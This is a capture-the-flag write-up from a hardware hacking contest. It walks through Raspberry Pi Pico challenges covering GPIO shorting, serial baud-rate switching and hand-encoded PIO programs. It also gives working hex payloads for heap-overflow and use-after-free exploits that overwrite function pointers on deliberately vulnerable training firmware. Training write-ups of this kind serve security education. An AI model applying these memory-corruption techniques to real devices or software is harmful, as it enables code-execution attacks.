# **First** Winner: **@M3RINOOOOO** (Cristóbal Merino Sáez)

# HardwareHackingEs2026 CTF Writeup 

# long short

```
- You must short multiple GPIOs to GND at the same time to win.
- All GPIOs must be LOW simultaneously for the entire check duration.
```

To solve the challenge, you need to create a short on some GPIOs to win. In other words, connecting the GPIOs they ask for to ground is enough to solve it.



In the picture we can see that we are asked to short GPIO2, GPIO3, GPIO4 and GPIO5, so let’s do it as it is shown in the following image.



After leaving it like that for 15 seconds, the flag is shown in the console.



# in order crazy baud rates

```
- You must understand serial communication and baud rate configuration.
```

The description does not give us much more information, so we need to inspect the decompiled code. In the following image, we can see the four baud rates we need to use to connect to the Pico and solve the challenge:



To solve the challenge, we connect to the board with:

```
picocom /dev/ttyACM0
```

Once connected, we change the connection baud rate with `ctrl + A` and `ctrl + B`, followed by the baud rate we want to use. By switching through the required baud rates in order, we get the flag:



# PIO put led on

```
 - You must craft PIO instructions to control the LED using the PIO state machine.
 - PIO0 State Machine 0 is pre-configured: clock = 10 kHz.
 - Side-set: NON-optional, 1 pin = GPIO 25 (LED). Bit 12 = side-set value. 4-bit delay (bits 11:8, max 15).
 - Side-set controls the LED: side-set=1 -> LED ON, side-set=0 -> LED OFF.
 - EVERY instruction drives the LED via side-set (non-optional).
 - SET pins: base = GPIO 20, 2 pins (GPIO 20 and GPIO 21). 'set pins, V' writes V to GPIO 20/21.
 - Enter your PIO program as 10 stamp bytes (hex) followed by 16-bit hex instruction words.
 - The first 10 hex values are your challenge stamp (anti-sharing). The rest are PIO instructions.
 - The LED and AUX pins must follow this EXACT pattern:
     1) LED ON  for ~3 seconds,  GPIO20=1 GPIO21=0
     2) LED OFF for ~8 seconds,  GPIO20=0 GPIO21=1
     3) LED ON  for ~10 seconds, GPIO20=1 GPIO21=1
     4) LED OFF (stay off),      GPIO20=0 GPIO21=0
```

The first step is to find the stamp in the binary. By studying the binary, we can locate the point where the stamp check is performed and read the value stored in memory:



Next, we need to craft the PIO instructions required to produce the requested GPIO pattern. We start with the instructions that change the GPIO states, which can be done with `SET`. In the Raspberry Pi documentation, we can see the encoding for this instruction:



Therefore, the four instructions needed to reach the required pin states are:

```
ff01 = 111 1 1111 000 00001
SET | side=1 | delay=15 | dest=pins | data=1
set pins, 1 side 1 [15]
GPIO20=1, GPIO21=0, LED ON.

ef02 = 111 0 1111 000 00010
GPIO20=0, GPIO21=1, LED OFF.

ff03 = 111 1 1111 000 00011
GPIO20=1, GPIO21=1, LED ON.

ef00 = 111 0 1111 000 00000
GPIO20=0, GPIO21=0, LED OFF.
```

Now we need to add the required delays between those state changes. Since the state machine runs at 10 kHz and each instruction can use the maximum delay `[15]`, each instruction takes 16 cycles, or 1.6 ms. We cannot write thousands of instructions because the PIO program is limited to 32 instructions, so we use the `X` and `Y` registers as counters and `jmp x--` / `jmp y--` instructions to build loops.

The idea is to keep the correct `side` value in every instruction of each phase: `side 1` while the LED must be ON and `side 0` while it must be OFF. Between state changes, we add jumps to the next instruction. They do not change any important state, but they consume time. They are basically timing padding.

For example, in phase 1 we use this loop:

```
ff59 = set y, 25 side 1 [15]
ff2d = set x, 13 side 1 [15]
1f04 = jmp 4 side 1 [15]
1f05 = jmp 5 side 1 [15]
1f06 = jmp 6 side 1 [15]
1f07 = jmp 7 side 1 [15]
1f43 = jmp x--, 3 side 1 [15]
1f82 = jmp y--, 2 side 1 [15]
```

The `jmp 4`, `jmp 5`, `jmp 6` and `jmp 7` instructions are padding jumps. They just jump to the next instruction, but each one still takes 1.6 ms because it has `side 1 [15]`.

The interesting part is the counter jump:

```
1f43 = 000 1 1111 010 00011
JMP | side=1 | delay=15 | condition=x-- | address=3
jmp x--, 3 side 1 [15]
```

This instruction decrements `X` and jumps back to address 3 while the counter is not finished. That means it repeats the padding block several times while keeping the LED ON.

When `X` finishes, the program reaches the outer counter:

```
1f82 = 000 1 1111 100 00010
JMP | side=1 | delay=15 | condition=y-- | address=2
jmp y--, 2 side 1 [15]
```

This decrements `Y` and jumps back to address 2, where `X` is loaded again with 13. This creates a nested loop: `X` repeats the padding block, and `Y` repeats the whole `X` loop. That is how we get a delay of several seconds with only a few PIO instructions.

```
Phase 1: LED ON  ~3s  -> set pins, 1; Y=25, X=13, 4 padding jumps
Phase 2: LED OFF ~8s  -> set pins, 2; Y=31, X=21, 6 padding jumps
Phase 3: LED ON  ~10s -> set pins, 3; Y=31, X=31, 5 padding jumps
Phase 4: LED OFF stay -> set pins, 0; self-jump
```

The goal is not to hit the theoretical millisecond values exactly, but to stay inside the range accepted by the firmware. The measured times were approximately 2786 ms, 7990 ms and 9935 ms, which were enough to pass the checks. The final payload is:

```
87 09 42 c1 ed 67 86 ef 44 e9 ff01 ff59 ff2d 1f04 1f05 1f06 1f07 1f43 1f82 ef02 ef5f ef35 0f0d 0f0e 0f0f 0f10 0f11 0f12 0f4c 0f8b ff03 ff5f ff3f 1f18 1f19 1f1a 1f1b 1f1c 1f57 1f96 ef00 0f1f
```



# The dumb PSRAM heap overflow

```
 - Classic Dumb PSRAM Heap Buffer Overflow challenge on PSRAM.
 - Two objects will be allocated on the PSRAM heap (TLSF allocator).
 - The first is a data buffer, the second is a struct containing a function pointer.
 - You write into the data buffer with NO bounds checking.
 - Your goal: overflow the buffer to overwrite the function pointer in the adjacent struct
   so it points to heap_solved(), which prints the flag.
 - The firmware will show you the memory addresses you need.
 - You must understand how heap allocations are laid out, including allocator metadata between chunks.
```

After starting the challenge, we get the addresses needed to solve it:



The stamp was obtained in the same way as in the previous challenges:

```
e8 5e 25 fa 96 9a 06 5a eb f3
```

The goal is to overwrite `target->callback` so it points to `heap_solved()`. The firmware gives us the required offset from the beginning of `user_buf`.

The payload layout is:

```
[10-byte stamp] + [padding up to offset 84] + [heap_solved address]
```

Since the stamp takes 10 bytes and the callback is at offset 84, we need 74 padding bytes before writing the new address. The function we want to jump to is `heap_solved()` which is allocated at `0x2000167E`.

This way, when the firmware calls the callback, it executes `heap_solved()` instead of `heap_not_solved()`. The final payload is:

```
e8 5e 25 fa 96 9a 06 5a eb f3 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 7e 16 00 20
```

After sending it, the callback points to `heap_solved()` and we get the flag:



# PSRAM heap use-after-free

```
 - Classic PSRAM HEAP Use-After-Free (UAF) challenge.
 - A struct with a function pointer will be allocated on the PSRAM heap, then freed.
 - You then get to allocate a new buffer of the SAME size — the allocator will reuse the freed memory.
 - You write your data into the new buffer, which overlaps the freed struct.
 - The firmware then calls the function pointer through the OLD (dangling) pointer.
 - Your goal: place the address of uaf_solved() at the right offset so the dangling call executes it.
 - The firmware will show you all the memory addresses and offsets you need.
```

After starting the challenge, the firmware gives us all the addresses and offsets needed:



The stamp was obtained in the same way as in the previous challenges:

```
ad 6a fb 3f 19 7b b9 1a f0 16
```

In this challenge, the bug happens because the firmware frees a `victim` struct but keeps using the old pointer. When a new buffer of the same size is allocated, the allocator reuses the same address, so the data we write into the new buffer overwrites the old struct.

The field we care about is `victim->callback`, and the firmware tells us it is at offset 16.

The payload layout is:

```
[10-byte stamp] + [padding up to offset 16] + [uaf_solved address]
```

Since the stamp takes 10 bytes and the callback is at offset 16, we need 6 padding bytes before writing the address. The function we want to jump to is `uaf_solved()` which is allocated at `0x20001ECA`. This way, when the firmware uses the dangling pointer and calls `victim->callback`, it executes `uaf_solved()`. 

The final payload is:

```
ad 6a fb 3f 19 7b b9 1a f0 16 41 41 41 41 41 41 ca 1e 00 20
```

After sending it, the callback points to `uaf_solved()` and we get the flag:



# The not so dumb PSRAM heap overflow

```
 - Harder PSRAM Heap Buffer Overflow with a guard struct in between.
 - Three objects will be allocated on the PSRAM heap (TLSF allocator):
     1. A data buffer (32 bytes)
     2. A guard struct with a magic value that will be checked
     3. A target struct with a function pointer
 - You write into the data buffer with NO bounds checking.
 - Your goal: overflow through the guard struct AND into the target struct,
   overwriting the function pointer to point to heap2_solved().
 - BUT: the guard's magic value (0x69CAFE69) is verified before calling. If it's wrong, you fail.
 - You must PRESERVE the magic while overflowing past it.
 - The firmware shows you the memory addresses but NOT the distances — you must calculate them.
 - WARNING: Your overflow traverses TLSF allocator metadata between chunks.
   This would normally corrupt the heap, but since we don't allocate/free after, it's fine here.
```

After starting the challenge, we again get all the addresses and offsets needed to solve it:



The stamp was obtained in the same way as in the previous challenges:

```
e8 0d cf 02 9c a9 9e 4e 80 cf
```

In this challenge, overwriting only the callback is not enough, because the firmware checks `guard->magic` before calling it. Therefore, the payload must write two values at specific offsets: the correct magic and the address of `heap2_solved()`. From the addresses shown by the board, `guard->magic` is at offset 36 from `user_buf`. The value that must be preserved is `0x69CAFE69` and the target callback is at offset 68 from `user_buf`, so the payload layout is:

```
[10-byte stamp] + [padding up to offset 36] + [guard magic] + [padding up to offset 68] + [heap2_solved address]
```

The function we want to jump to is `heap2_solved()` which is allocated at `0x20001A4C`.

With this, the guard passes the check and the callback points to `heap2_solved()`. The final payload is:

```
e8 0d cf 02 9c a9 9e 4e 80 cf 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 69 fe ca 69 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 4c 1a 00 20
```

After sending it, the firmware checks the stamp, validates the magic and executes the overwritten callback:


